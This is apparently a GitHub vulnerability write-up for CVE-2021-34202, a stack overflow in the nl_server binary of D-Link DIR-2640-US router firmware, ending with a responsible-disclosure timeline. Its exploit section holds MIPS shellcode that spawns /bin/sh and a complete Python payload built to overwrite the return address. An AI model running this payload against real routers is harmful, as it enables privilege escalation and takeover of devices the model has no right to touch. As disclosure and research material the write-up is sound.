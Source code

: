 # Stack Overflow in DIR-2640-US Router

## Overview

- **CVE ID**: [CVE-2021-34202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34202)

- **Type**: [Out-of-bounds Write *- (787)*](http://cwe.mitre.org/data/definitions/787.html)

- **Vendor**: D-LINK (https://www.dlink.com/)

- **Products**: WiFi Router, such as DIR-2640-US.

- **Version**: Firmware (1.01B04)

- **Fix**: None

## Severity

**High** 7.8 CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

## Description

Multiple out-of-bounds vulnerabilities in some processes of D-Link AC2600(DIR-2640). Ordinary permissions can be elevated to administrator permissions, resulting in local arbitrary code execution.  An attacker can combine other vulnerabilities to further achieve the purpose of remote code execution.

Ordinary users can run `nl_server`.

```shell
admin@dlinkrouter:~$ ls -l ./usr/bin/nl_server 
-rwxr-xr-x    1     18616 May 23  2021 ./usr/bin/nl_server
```

`nl_server` does not enable any safe compilation options.

```shell
gef➤  checksec
[+] checksec for '_DIR2640A1_FW101B04.bin.extracted/_A0.extracted/_856EA8.extracted/cpio-root/usr/bin/nl_server'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : ✘ 
```

The process does not limit the length of parameters entered by the user.

![main_function](./images/main_function.png)

The variable `dword_414140`  is used again in the `sub_401F40`.

![main](images/main.png)

The variables entered by the user are stored in the stack space. Therefore, there is a stack overflow vulnerability in this function.

![stack_over_flow](images/stack_over_flow.png)



[CVE-2021-34203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34203)  brought good news

> Is this parameter controllable externally?

## How to Reproduce (PoC)

Direct method

```shell
$ nl_server -i aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234
```

![poc1](images/poc1.png)

The return address of the process is directly modified by us to 1234 (ascii: 34333231)

## How to Exploit (exp)

`sp = 0x7fff6b70`, `sp + 0xa0 = 0x7fff6c10`

A suitable shellcode

```shell
char sc[] = {
    "\x24\x06\x06\x66" /* li a2,1638           */
    "\x04\xd0\xff\xff" /* bltzal a2,4100b4 <p> */
    "\x28\x06\xff\xff" /* slti a2,zero,-1      */
    "\x27\xbd\xff\xe0" /* addiu	sp,sp,-32      */
    "\x27\xe4\x10\x01" /* addiu	a0,ra,4097     */
    "\x24\x84\xf0\x1f" /* addiu	a0,a0,-4065    */
    "\xaf\xa4\xff\xe8" /* sw a0,-24(sp)        */
    "\xaf\xa0\xff\xec" /* sw zero,-20(sp)      */
    "\x27\xa5\xff\xe8" /* addiu	a1,sp,-24      */
    "\x24\x02\x0f\xab" /* li v0,4011           */
    "\x01\x01\x01\x0c" /* syscall 0x40404      */
    "/bin/sh"          /* sltiu	v0,k1,26990    */
                       /* sltiu	s3,k1,26624    */
}; //mipsel
```

Stack

```shell
┌────────────────┐ ◄────── sp
│                │
│                │
├────────────────┤ ◄────── sp + 0x18
│      v8        │
├────────────────┤
│                │
│                │
│                │
├────────────────┤ ◄────── sp + 0x4c
│      ra        │
xxxxxxxxxxxxxxxxxx ◄────── new_sp = sp + 0x50
│                │
├────────────────┤
│                │
│                │
│                │
├────────────────┤ ◄────── new_sp + 0x50
│   shellcode    │
├────────────────┤
│                │
│                │
└────────────────┘
```

Payload

```shell
python -c 'print "a" * 52 + "\x10\x6c\xff\x7f" + "b" * 0x50 + "\x66\x06\x06\x24"+  "\xff\xff\xd0\x04"+ "\xff\xff\x06\x28" + "\xe0\xff\xbd\x27"+ "\x01\x10\xe4\x27" +  "\x1f\xf0\x84\x24" + "\xe8\xff\xa4\xaf"+ "\xec\xff\xa0\xaf" + "\xe8\xff\xa5\x27"+  "\xab\x0f\x02\x24" +  "\x0c\x01\x01\x01"+ "/bin/sh" ' > payload
```

Our payload works correctly!

![exp3](images/exp3.png)

This binary can be run by ordinary users, so local code execution can elevate ordinary permissions to root permissions.

Of course, the parameter (payload) is actually the name of the bridge. If we can modify the bridge name from the outside, we can implement remote code execution!

## Disclosure Timeline

- 8-Feb-2021 Discoverd the vulnerability
- 9-Feb-2021 Responsibly disclosed vulnerability to vendor
- 10-Feb-2021 D-Link PSIRT would raise to R&D
- 31-Mar-2021 D-Link R&D was investigating the report
- 2-Jun-2021 Requested for CVE-ID assignment
- 10-Jun-2021 CVE-ID Assigned
- 13-Jun-2021 Notified CVE about a publication
